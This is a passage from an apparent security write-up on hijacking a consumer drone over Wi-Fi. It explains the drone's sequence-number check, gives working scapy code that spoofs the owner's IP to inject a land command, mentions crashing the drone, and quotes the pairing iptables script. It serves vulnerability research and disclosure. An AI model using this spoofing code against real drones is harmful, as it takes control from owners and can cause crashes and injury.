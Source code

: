 Both commands have a Sequence Number. This number is used to prevent older commands from being accepted, so the drone only accepts packets with higher sequence number than the previous one. The counter can be reset to 1 by either not sending any control packet to the drone for 2 seconds, or sending a packet with seqNr 1. (The packet with seqNr 1 will be accepted and then the counter is reset.)

## Fake a land packet

What if we send a packet with a very high sequence number? Let's try it! To prevent multiple phones trying to control the drone, the drone only accepts packets from the source IP of the controller. (The controller is defined as the first device which starts sending control packets.) But since it's UDP, we can simply spoof the IP of my phone. I used the python module *scapy* to do this. Make sure you run this code as root, otherwise it won't work.
```python
from scapy.all import *
from time import sleep

srcIP = '192.168.1.2' # my phone's IP
dstIP = '192.168.1.1' # drone's IP
srcPort = 5556 # source port
dstPort = 5556 # destination port

payload = "AT*REF=1000000,290717696\r"
print payload
spoofed_packet = IP(src=srcIP, dst=dstIP) / UDP(sport=srcPort, dport=dstPort) / payload
send(spoofed_packet)
```
It takes over the drone and lands it. The owner has no longer control, and he can only get it back by restarting the app (in the case it will send a packet with seqNr 1, which resets the counter). For the demo I extended this code to first send 10 packets with 1000000+ sequence number, then wait for 5 seconds to show the owner has no longer control and then send a packet with seqNr 1 to restore control. You can access this code [here](code/1.py).

Of course we can send other packets in the same way. We can rotate the drone, don't let it land (by constantly sending take-off packets with seqNr 1) or set the velocity to maximum, and smash the drone to the wall. I used the land command for the demo, because that's the easiest (and probably the safest) thing to show.

## Security control?

You could say: that was too easy, there must be some sort of security control which can be enabled by the owner to prevent this attack. In fact, there is, and it's called 'Pairing'. It can be enabled in the settings of the app. Since we have full telnet access to the drone, it was easy to find the setup script of this feature under `/bin/pairing_setup.sh`. This script sets up the following IP tables rules:
```bash
NULL_MAC=00:00:00:00:00:00
if [ $MAC_ADDR != $NULL_MAC ]
then
# Clearing all rules
iptables -P INPUT ACCEPT
iptables -F
# Allowing only owner's traffic
iptables -A INPUT -m mac --mac-source $MAC_ADDR -j ACCEPT
# allowing ICMP (ping), ftp and nfs traffic for everyone.
# Telnet is only allowed for paired user
iptables -A INPUT --protocol icmp -j ACCEPT
#iptables -A INPUT --protocol tcp --dport 23 -j ACCEPT
iptables -A INPUT --protocol tcp --dport 21 -j ACCEPT
iptables -A INPUT --protocol tcp --dport 2049 -j ACCEPT
# Blocking all incoming traffic by default
iptables -P INPUT DROP
else
# Clearing all rules
iptables -F
```